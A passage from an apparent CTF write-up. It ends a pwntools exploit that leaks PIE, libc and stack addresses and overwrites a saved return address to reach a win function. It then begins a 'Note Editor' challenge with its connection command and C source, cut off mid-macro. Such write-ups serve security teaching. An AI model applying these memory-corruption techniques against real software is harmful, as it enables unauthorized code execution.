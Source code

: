 ```

slog('leak', leak)
slog('PIE base', exe.address)


sla(b't\n', b'2')
sla(b')\n', f'{hex(exe.got["exit"])}'.encode())
libc_leak = int(rl(), 16)
libc.address = libc_leak - libc.sym.exit
slog('libc base', libc.address)


sla(b't\n', b'2')
sla(b')\n', f'{hex(libc.sym.environ)}'.encode())
stack_leak = int(rl(), 16)
saved_rip = stack_leak - 0x130
slog('stack leak', stack_leak)
slog('saved RIP', saved_rip)


sla(b't\n', b'1')
sla(b')\n', f'{hex(saved_rip)} {hex(exe.sym.win + 22)}'.encode())


sla(b't\n', b'3')


p.interactive()
```



2. Note Editor 

![image](https://hackmd.io/_uploads/HJboqAD4gg.png)

Spawn challenge instance : 
```
ncat --ssl note-editor.gpn23.ctf.kitctf.de 443
```

Source code : 

Main.c : 

``` 
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>


#define NOTE_SIZE 1024
struct Note {
    char* buffer;
    size_t size;
    uint32_t budget; 
    uint32_t pos; 
};
typedef struct Note Note;

#define SCANLINE(format, args) \
    ({ \
    char* __scanline_line = NULL; \
    size_t __scanline_length = 0; \
    getline(&__scanline_line, &__scanline_length, stdin); \
    sscanf(__scanline_line, format, args); \
```